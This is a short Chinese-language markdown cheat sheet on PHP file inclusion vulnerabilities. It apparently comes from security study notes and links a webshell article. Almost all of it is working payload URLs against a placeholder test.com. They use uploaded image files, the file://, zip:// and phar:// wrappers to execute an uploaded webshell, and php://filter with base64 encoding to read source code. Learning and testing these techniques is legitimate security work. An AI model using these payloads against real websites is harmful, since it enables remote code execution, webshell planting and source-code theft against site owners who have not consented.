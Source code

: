 # 文件包含漏洞

---

## Reference

- [聊聊安全测试中如何快速搞定Webshell](https://www.freebuf.com/articles/web/201421.html)

---

# 几种利用方法
## 常规利用

`Payload: http://www.test.com/test.php?file=upload/hourse.jpg&x=phpinfo()`

## 文件协议读取

其前提是得知道网站应用的绝对路径（物理路径）：

`Payload: http://www.test.com/test.php?file=file://D:/Server/htdocs/test/upload/hourse.jpg&x=phpinfo()`

结果和上面一样，只是地址栏链接不一样。

## 压缩包文件读取

依然需要知道压缩包文件的绝对路径

`Payload: http://www.test.com/test.php?file=zip://D:/Server/htdocs/test/upload/shell.zip%23shell.php&x=phpinfo())`

## phar:// 相对路径运行 PHP 文件

当我们想要运行自己的 PHP 文件，该咋做呐？通过文件包含（include,require 这类函数），首先构造一个这样的文件，将 webshell.php 添加到压缩文件 .zip，然后将压缩包后缀名改为 .jpg 反正合法的文件后缀即可（一般的操作是这样的，当只能上传图片的时候），最后使用 phar:// 按照相对路径读取并执行文件。

`Payload：http://www.test.php?file=phar://upload/shell.jpg/shell.php?x=phpinfo()`

## 读取源码

当我们没法儿上传文件，但是又想读取文件的源码来寻找别的漏洞从而进一步利用该怎么做呐？同样的利用 php://filter/ 协议可以实现，要注意的是，因为编码问题，一般我们会将读取的文件先 Base64 编码一下输出：

`Payload：http://www.test.com/test.php?file=php://filter/read=convert.base64-encode/resource=upload/shell.php`

